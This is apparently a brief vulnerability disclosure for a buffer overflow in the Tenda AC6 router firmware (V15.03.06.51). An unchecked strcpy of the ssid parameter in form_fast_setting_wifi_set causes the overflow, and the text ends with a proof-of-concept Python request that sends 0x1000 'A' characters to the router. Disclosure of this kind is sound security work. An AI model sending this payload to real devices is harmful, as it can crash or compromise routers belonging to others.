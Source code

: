 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/form_fast_setting_wifi_set

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](1.png)

get value from ssid ,and call strcpy, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/form_fast_setting_wifi_set"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'ssid': payload})
``` 
